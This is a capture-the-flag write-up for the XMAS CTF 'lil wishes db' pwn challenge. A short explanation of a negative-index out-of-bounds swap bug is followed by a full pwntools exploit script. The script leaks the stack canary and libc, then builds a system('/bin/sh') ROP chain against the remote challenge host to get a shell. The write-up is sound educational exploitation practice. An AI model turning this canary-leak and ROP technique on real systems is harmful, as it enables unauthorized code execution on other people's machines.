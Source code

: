 ## XMAS CTF: lil wishes db [pwn]
![](lilwishes_desc.png)

#### My exploit for this one is really messy, and now that I'm writing this, I'm thinking that leaking the canary was unnecessary to solve the challenge. Here we have all protections set which may seem daunting at first but becomes pretty straightforward when we realize that we have an arbitrary out-of-bounds access when we supply a negative value to the swap_id function. 

#### With this arbitrary write, we can, well write, to addresses past the stack buffer and even past the stack canary; allowing us to access/overwrite the return address even when there is a canary present. We do need to take note of an additional operation tho, basically the indexes that we provide for the swap algorithm gets recalculated using the following formula: `index & 0xffff`.

#### This affects what index (offset in the stack) we access or write to. For example, in order to leak the canary which is at array + 72 (offset 9 on the stack), we need to calculate the index we provide such that `index & 0xffff == 9` and do this for the other indexes as well. Using this, we can proceed to leak a libc address and perform a system('/bin/sh') ropchain to get a shell. 

```python
from pwn import *

#:
#p = process('./chall')
binary = ELF('./chall', checksec = False)
p = remote("challs.xmas.htsp.ro", 2002)
breakpoints = ['brva 0x84a']
#gdb.attach(p, gdbscript = '\n'.join(breakpoints))
print(p.recvuntil('Option: \n'))

#:
def print_db():

	p.sendline('2')
	print(p.recvuntil('Option: \n'))

def insert_id(index, value):

	p.sendline('3')
	p.sendline(str(index))
	p.sendline(str(value))
	print(p.recvuntil('Option: \n'))

def swap_id(id1, id2):

	p.sendline('1')
	p.sendline(str(id1))
	p.sendline(str(id2))
	print(p.recvuntil('Option: \n'))

insert_id(0, '666') #: CANARY BEFORE RETURN ADDR
insert_id(1, '100') #: 
swap_id(-65527, 0) #: ~0xfff6 & 0xffff ==> 9, access out of bounds index; leaks canary
swap_id(~0xfff0, 1) #: leaks main

#: GET THEM LEAKS BEBE
p.sendline('2')
db_leaks = p.recvuntil('Choose:').split()
canary = int(db_leaks[2])
main_addr = int(db_leaks[5])
func_base = main_addr & ~0xfff

print('[*] canary_leak: ' + hex(canary))
print('[*] main_leak: ' + hex(main_addr))
print('[*] func_base: ' + hex(func_base))
print(p.recvuntil('Option: \n'))

#: MAKE SURE TO REPLACE CANARY BEFORE OVERWRITING RET ADDR
insert_id(3, int(canary))
swap_id(~0xfff5, 3) #: RETURN THE CANARY

#: INITIAL ROP CHAIN
insert_id(4, func_base + 0xbb3) #: POP RDI; RET
swap_id(~0xfff4, 4) #: RET ADDRESS
insert_id(5, func_base + (binary.got['setvbuf'] & 0xf0ffff))
swap_id(~0xfff3, 5) #: ADD SETVBUF GOT TO STACK
insert_id(6, func_base + 0x6d0) #: PUTS OFFSET
swap_id(~0xfff2, 6)
insert_id(7, main_addr)
swap_id(~0xfff1, 7) #: RETURN TO MAIN
p.sendline('4') #: EXIT TO RETURN

#: LEAK LIBC ADDRESS
print(p.recvuntil('Christmas!\n'))
setvbuf_leak = u64(p.recvuntil('database').split()[0].ljust(8, '\x00'))
print('[*] setvbuf_leak: ' + hex(setvbuf_leak))
print(p.recvuntil('Option: \n'))

#: SETUP LIBC
libc = ELF('./libc.so.6', checksec = False)
libc_base = setvbuf_leak - libc.symbols['setvbuf']
bin_sh = libc_base + libc.search('/bin/sh').next()
system = libc_base + libc.symbols['system']
print('[*] libc_base: ' + hex(libc_base))
print('[*] bin_sh: ' + hex(bin_sh))
print('[*] system: ' + hex(system))

#: FINAL PAYLOAD, I'M NOT SURE WHY I NEED TO REPEAT ADDING THE system(/bin/sh) CHAIN
insert_id(0, int(canary))
swap_id(~0xfff5, 0)
insert_id(1, func_base + 0xbb3)
swap_id(~0xfff4, 1)
insert_id(2, libc_base + libc.search('/bin/sh').next())
swap_id(~0xfff3, 2)
insert_id(3, libc_base + libc.symbols['system'])
swap_id(~0xfff2, 3)
insert_id(4, func_base + 0xbb3)
swap_id(~0xfff1, 4)
insert_id(5, libc_base + libc.search('/bin/sh').next())
swap_id(~0xfff0, 5)
insert_id(6, libc_base + libc.symbols['system'])
swap_id(~0xffef, 6)

p.sendline('4') #: EXIT TO RETURN
p.interactive()
```

![](lilwishes_shell.png)